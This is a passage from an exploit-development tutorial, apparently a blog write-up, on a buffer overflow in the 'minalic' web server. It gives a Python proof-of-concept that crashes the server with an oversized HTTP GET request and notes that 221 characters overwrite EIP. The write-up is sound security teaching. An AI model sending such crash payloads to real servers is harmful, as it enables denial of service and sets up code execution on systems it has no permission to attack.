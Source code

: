 ## Creating proof of concept code ##

As next step we need to reproduce crash with PoC script:

```
#!/usr/bin/python

import socket

host = "172.16.24.213"
port = 80

buffer = "GET /a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a=a= HTTP/1.1\r\n"
buffer += "Host: 172.16.24.213\r\nUser-Agent FUZZ\r\nAccept: FUZZ\r\nConnection: close\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(buffer)
print ("[+] Payload sent")
s.close()
```

And it works. 

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_03.png?raw=true)

Great, now we need to attach Immunity Debugger or OllyDbg to the application to inspect the crash.
  
## Analysing crash ##

When we send payload from minalic_server_crash_report.txt application is crashed but still not in a usefully way. We need to manually probe various payload lengths to overwrite EIP with values we want.   

After a bit of playing with various lengths we can conclude that EIP is overwritten by sending 221 "A"s after ```GET /``` prefix.
